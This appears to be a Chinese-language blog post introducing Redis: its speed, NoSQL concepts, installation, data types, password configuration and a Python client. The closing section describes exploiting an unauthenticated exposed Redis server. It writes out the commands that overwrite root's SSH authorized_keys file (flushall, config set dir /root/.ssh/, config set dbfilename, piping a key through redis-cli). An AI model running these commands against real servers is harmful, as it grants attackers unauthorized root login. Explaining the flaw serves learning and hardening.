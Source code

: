 ```yaml
---
layout: post
title:  "redis入门"
date:   2017-06-06 20:15:00 +0800
categories: nosql
---
```


当我真正的接触到了Redis的时候，我被它的速度震惊了，因为它甚至比python内置的数据结构还要快。
在学习redis之前有几个问题可以先思考一下

1.系统的瓶颈出现在哪里？
IO读写，涉及到了磁盘操作，而这里速度是影响性能的主要因素
寄存器->内存->磁盘
依次是，存储量变大，但速度变慢。
2.NoSql是什么？
数据库有关系型数据库，结构化存储，支持SQL语句，这是我们所熟悉的，也是技术比较成熟的。
还有一种not only sql,例如redis通过key-value存储数据。
3.数据的持久化保存和速度之间的矛盾如何解决
要想持久化就不可避免的应用到磁盘，速度会下降，如何解决这两个矛盾呢？

Redis出现了，说起它的作者，你可能用过他写的另一个工具hping。
Redis有哪些特点？

1.数据可以存储到磁盘，提高可靠性
2.数据存放在内存中，可以定时保存到存储中。
3.多种数据结构的支持。

redis安装和使用

在linux上通过源码编译安装。
redis本身没有提供windows版本，但微软公司维护了一份可在windows用的redis,但是网络好像不通。
从下面这个地址获取windos版本的编译好的二进制redis文件
https://github.com/dmajkic/redis/downloads
redis-server默认会占用系统的6379号端口。
redis有多种客户端，但其本质都是连接到server，然后执行命令。

redis的配置

redis.conf文件是配置文件。

redis的数据类型

键与值在计算机术语中很常见了。
我通过python接口来学习了。
import redis
conn = redis.Redis()
1.字符串：

redis-cli中
设置键和值
set key value
获取键对应的值
get key

2.列表


3.哈希表


4.集合


5.有序集合


6.位图



总结：对于我们不了解的技术总是心生畏惧，可但凡你投入几个小时学习一下，你就话发现一片崭新的天地。

## install
```
cd redis-3.2.9
make
make install
cd utils
./install_server.sh

```

如下配置
```
Selected config:
Port           : 6379
Config file    : /etc/redis/6379.conf
Log file       : /var/log/redis_6379.log
Data dir       : /var/lib/redis/6379
Executable     : /usr/local/bin/redis-server
Cli Executable : /usr/local/bin/redis-cli

```

### 安装python接口
```
cd redis-2.10.5
python setup.py install
```
### FAQ
1. 如何配置密码？
/etc/redis/6379.conf 配置requirepass helloworld

pkill redis-server
2. 如何进行鉴权？

在用户层面只要这样就可以了
auth passsword

在实现层面会更复杂

3. python客户端做了哪些事？

例如数据库返回OK，则python把它转化为True

4.redis漏洞利用

ref:
[https://zhuoroger.github.io/2016/07/29/redis-sec/](https://zhuoroger.github.io/2016/07/29/redis-sec/)

Your public key has been saved in /root/.ssh/id_rsa.pub
 
/root/.ssh/authorized_keys 这个是存放公钥的文件，如果这个文件中存放了别人的公钥，那么别人就可以利用他对应的私钥面密登陆。
 
如果Redis 绑定在 0.0.0.0:6379，并且没有开启认证（这是Redis 的默认配置），如果没有进行采用相关的策略，比如添加防火墙规则避免其他非信任来源 ip 访问等，将会导致 Redis 服务直接暴露在公网上，导致其他用户可以直接在非授权情况下直接访问Redis服务并进行相关操作。
```
config get dir
1) "dir"
2) "/var/lib/redis/6379
```

```
flushall

config set dir /root/.ssh/

config set dbfilename authorize_keys

cat r.txt |redis-cli  -a redispassword -x set a
```
